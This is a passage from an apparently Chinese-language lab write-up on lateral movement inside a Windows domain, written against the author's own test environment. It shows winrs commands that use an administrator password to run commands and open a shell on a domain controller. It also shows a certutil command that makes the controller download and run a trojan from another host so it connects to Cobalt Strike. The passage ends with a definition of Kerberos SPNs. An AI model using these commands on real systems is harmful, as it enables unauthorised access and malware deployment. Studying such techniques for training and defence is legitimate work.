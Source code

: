 #### 连接域控主机

可以看到这里是能够利用成功的，不过CS上一直显示”句柄无效“，我查了以下资料说需要将IP地址替换成机器名，但是我替换了不过依旧显示句柄无效，搞不懂了。

同时hash值我并没有利用成功，不知道是不是需要设置什么.....

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 ipconfig
winrs -r:[ip] -u:[username] -p:[password] <command>
```

![image-20230723073814628](https://s2.loli.net/2023/07/24/T4psrCjcz7kBuN3.png)

#### 获得交互式会话

这里输入命令可以获取交互式会话，相当于远程连接到域控的cmd上。

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 cmd
```

![image-20230723074101538](https://s2.loli.net/2023/07/24/5Y4HUmCiFfElLeS.png)

### 上线CS

这里直接让域控下载一个木马，上线即可，需要注意，由于域控是在内网，无法访问到外网，需要使用到转发上线哦，这里我就不操作了，直接给命令，由于我也没搭建web服务器。

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 "cmd.exe /c certutil -urlcache -split -f http://192.168.20.10/3010.exe 3010.exe & 3010.exe"
```

## CS内置插件

在CS中是有内置插件的，这里我们在获取端口存活哦，直接使用插件进行转发上线即可，选择一个账户密码即可，不过.....我依旧没测试成功，由于环境都是我自己搭建的，所以问题也比较多，其实这样才是最真实的，由于现实环境中，很多管理员设置完并不会考虑这些，所以会有遗漏的或者默认拦截的，导致我们在利用的时候，问题也是很多的。

![image-20230723074712257](https://s2.loli.net/2023/07/24/mhkPzrB2pEMJ6yF.png)

# kerberos&Spn_请求&破解

这里简单说一下，太复杂了我也还没搞懂。

[参考连接](https://www.cnblogs.com/backlion/p/8082623.html)

## SPN定义

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。Kerberos身份验证使用SPN将服务实例与服务登录帐户相关联。如果在整个林中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN。如果客户端可能使用多个名称进行身份验证，则给定的服务实例可以具有多个SPN。例如，SPN总是包含运行服务实例的主机名称，所以服务实例可以为其主机的每个名称或别名注册一个SPN。

## SPN扫描
